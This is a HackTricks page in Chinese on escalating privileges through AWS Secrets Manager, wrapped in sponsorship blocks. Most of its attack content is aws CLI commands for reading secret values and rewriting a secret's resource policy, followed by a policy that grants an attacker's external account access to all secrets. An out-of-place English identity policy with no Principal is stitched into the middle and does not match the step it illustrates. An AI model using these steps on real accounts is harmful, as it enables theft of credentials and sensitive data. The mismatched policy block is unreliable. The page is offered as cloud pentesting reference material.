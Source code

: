 # AWS - Secrets Manager权限提升

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## Secrets Manager

有关Secrets Manager的更多信息，请查看：

{% content-ref url="../aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### `secretsmanager:GetSecretValue`

具有此权限的攻击者可以获取AWS Secrets Manager中**秘密中保存的值**。
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**潜在影响：**访问AWS Secrets Manager服务中的高度敏感数据。

### `secretsmanager:GetResourcePolicy`，`secretsmanager:PutResourcePolicy`，(`secretsmanager:ListSecrets`)

通过上述权限，可以将访问**密钥**的权限授予其他主体/账户（甚至是外部主体/账户）。请注意，为了**读取使用KMS密钥加密**的密钥，用户还需要对KMS密钥**具有访问权限**（更多信息请参见[KMS枚举页面](../aws-services/aws-kms-enum.md)）。
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowListSecrets",
            "Effect": "Allow",
            "Action": [
                "secretsmanager:ListSecrets",
                "secretsmanager:ListSecretVersionIds"
            ],
            "Resource": "*"
        },
        {
            "Sid": "AllowGetSecretValue",
            "Effect": "Allow",
            "Action": "secretsmanager:GetSecretValue",
            "Resource": "arn:aws:secretsmanager:us-west-2:123456789012:secret:my-secret"
        }
    ]
}
```

This policy allows the user to list secrets and secret version IDs using the `secretsmanager:ListSecrets` and `secretsmanager:ListSecretVersionIds` actions. It also allows the user to get the value of a specific secret using the `secretsmanager:GetSecretValue` action. The resource specified in the policy is the ARN (Amazon Resource Name) of the secret named "my-secret" in the US West (Oregon) region for the AWS account with the ID "123456789012".
```json
{
"Version" : "2012-10-17",
"Statement" : [ {
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : "secretsmanager:GetSecretValue",
"Resource" : "*"
} ]
}
```
<details>

<summary><strong>支持HackTricks并获得好处！</strong></summary>

* 如果您想看到您的**公司在HackTricks中被广告**，或者如果您想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或者 [**Telegram群组**](https://t.me/peass) 或者 **关注**我在**Twitter**上的账号 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享您的黑客技巧**。

</details>
